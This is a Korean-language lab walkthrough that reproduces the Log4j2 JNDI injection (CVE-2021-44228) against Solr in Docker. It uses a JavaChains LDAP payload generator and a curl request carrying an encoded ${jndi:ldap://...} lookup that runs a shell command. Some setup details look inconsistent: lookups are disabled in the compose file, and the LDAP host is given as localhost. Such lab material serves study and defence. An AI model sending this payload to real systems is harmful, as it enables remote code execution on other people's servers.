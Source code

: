 # Apache Log4j2 JNDI 인젝션 취약점 (CVE-2021-44228)

Apache Log4j 2는 Log4j 1.x의 상위 버전으로, Logback에서 사용 가능한 많은 개선 사항을 제공하면서 Logback의 구조적 문제를 해결했습니다.

2021년 12월, Apache Log4j2에서 0-day 취약점이 발견되었습니다. Log4j의 JNDI 지원이 이름 해석을 제한하지 않았기 때문에 `rmi:` 및 `ldap:` 같은 프로토콜이 안전하지 않거나 원격 코드 실행을 허용할 수 있습니다.

## 취약점 환경 구성

### 1. JavaChains 설치
PoC를 수행하기 위해 JavaChains를 설치합니다. JavaChains는 JNDI 페이로드를 생성하고 LDAP 서버를 실행하는데 사용됩니다. 수동으로 설치하는 대신, docker-compose.yml 파일에 서비스를 추가하여 자동화된 설치를 구성했습니다.

```bash
# JavaChains 디렉토리 생성
mkdir -p CVE-2021-44228/java-chains

# Dockerfile 생성
cat > CVE-2021-44228/java-chains/Dockerfile << 'EOF'
FROM openjdk:8-jdk
WORKDIR /app
COPY target/java-chains-1.0-SNAPSHOT.jar app.jar
EXPOSE 8011
ENTRYPOINT ["java", "-jar", "app.jar"]
EOF
```

### 2. docker-compose.yml 수정
기존 docker-compose.yml 파일에 JavaChains 서비스를 추가합니다:

```yaml
version: '3'
services:
  solr:
    image: vulhub/solr:8.11.1
    ports:
      - "8983:8983"
    environment:
      - SOLR_OPTS=-Dlog4j2.formatMsgNoLookups=true
    volumes:
      - ./solr:/var/solr
    command:
      - solr-precreate
      - test
    restart: always

  java-chains:
    build: ./java-chains
    ports:
      - "8011:8011"
    restart: always
```

### 3. 환경 실행
다음 명령어로 환경을 실행합니다:

```bash
docker-compose up -d
```
JavaChains 접속
![image](https://github.com/user-attachments/assets/a54ee6a0-a5da-4607-a6cf-1587055f4523)
![java-chains 접속](https://github.com/user-attachments/assets/1162c2d4-6845-43bf-b099-991b9baa2c04)

패스워드를 찾기 위해 
### 4. JavaChains 비밀번호 확인
JavaChains 웹 인터페이스에 접속하기 위한 비밀번호는 다음 명령어로 확인할 수 있습니다:

```bash
docker logs java-chains | grep password
```
![자바체인 로그](https://github.com/user-attachments/assets/65a2a400-e53a-430e-9e53-6a213d18841d)

## 취약점 공격

1. JavaChains 웹 인터페이스 접속:
   - 브라우저에서 http://localhost:8011 접속
   - 위에서 확인한 비밀번호 입력
   - 명령어 입력 (예: `touch /tmp/success`)
   - "Generate" 버튼 클릭하여 LDAP URL 생성
   - ![java-chains 접속6](https://github.com/user-attachments/assets/d2c5bb0b-e348-4059-8a29-b8bd74f30468)


2. 생성된 LDAP URL을 사용하여 Solr에 페이로드 전송:
```bash
curl "http://localhost:8983/solr/admin/cores?action=%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A50389%2F[생성된_ID]%7D"
```
![image](https://github.com/user-attachments/assets/7623333a-9a13-4fc6-8932-8fbc68eb4971)

3. 명령어 실행 확인:
```bash
docker exec -it cve-2021-44228-solr-1 bash
ls -l /tmp/success
```
![image](https://github.com/user-attachments/assets/eacafb91-137f-4404-8ee3-c220cf4ca368)

## 주의사항

1. Java Chains와 Solr 컨테이너가 같은 Docker 네트워크에 있어야 합니다.
2. JDK 버전이 8u191 미만인 경우에만 `rmi://` 또는 `ldap://` 프로토콜을 사용할 수 있습니다.
3. 취약점 공격 시 반드시 테스트 환경에서만 실행해야 합니다.

## 참고 자료

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649 
